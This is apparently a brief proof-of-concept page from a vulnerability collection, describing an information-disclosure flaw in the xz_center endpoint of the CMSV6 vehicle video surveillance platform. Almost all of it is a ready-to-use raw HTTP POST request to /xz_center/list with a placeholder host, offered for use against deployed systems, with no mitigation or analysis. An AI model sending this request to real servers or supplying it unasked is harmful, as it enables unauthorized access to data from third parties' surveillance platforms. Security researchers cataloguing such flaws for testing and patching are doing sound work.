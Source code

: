 ## 通天星CMSV6车载视频监控平台xz_center信息泄露漏洞




## poc

```
POST /xz_center/list HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close

page=1
```

